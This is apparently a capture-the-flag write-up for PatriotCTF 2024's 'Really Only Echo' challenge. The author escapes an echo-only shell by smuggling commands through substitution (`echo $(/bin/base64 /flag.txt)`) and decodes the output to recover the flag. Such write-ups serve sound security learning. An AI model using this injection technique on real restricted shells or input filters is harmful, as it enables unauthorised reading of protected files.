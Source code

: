 # PatriotCTF 2024 - Really Only Echo
**Title:** Really Only Echo

**Description:** Hey, I have made a terminal that only uses echo, can you find the flag?
`nc chal.competitivecyber.club 3333`

**Files:** server.py

## Solution:
So, in this challenge we were given a terminal where we can only use the `echo` command, now the first step should be to locate where the flag might be, I start searching from the `root` directory:
```bash
Please input command: echo /*
/bin /boot /dev /etc /flag.txt /home /lib /lib64 /media /mnt /opt /proc /root /run /sbin /srv /sys /tmp /usr /var
```

And there's the `flag.txt` file, Naturally, the next step is to attempt to read it using `echo`:
```bash
Please input command: echo $(</flag.txt)
```

Unfortunately, this attempt to read the file fails. Since direct access to the file is blocked, I decide to explore `/bin`, which contains various executable programs. By listing the contents of `/bin`, I look for something that can help:
```bash
Please input command: echo /bin/* 
/bin/[ /bin/base64 /bin/cat /bin/echo /bin/bash ...
```

I spot `/bin/base64`, a program that can encode or decode base64 strings. Using this tool, I attempt to base64-encode the contents of the flag:
```bash
Please input command: echo $(/bin/base64 /flag.txt)
cGN0ZntlY2hvX2lzX3N1Y2hfYV92ZXJzYXRpbGVfY29tbWFuZH0=
```

The output is a base64-encoded string. Decoding this string gives us the flag:
```bash
$ echo "cGN0ZntlY2hvX2lzX3N1Y2hfYV92ZXJzYXRpbGVfY29tbWFuZH0=" | base64 -d
pctf{echo_is_such_a_versatile_command}
```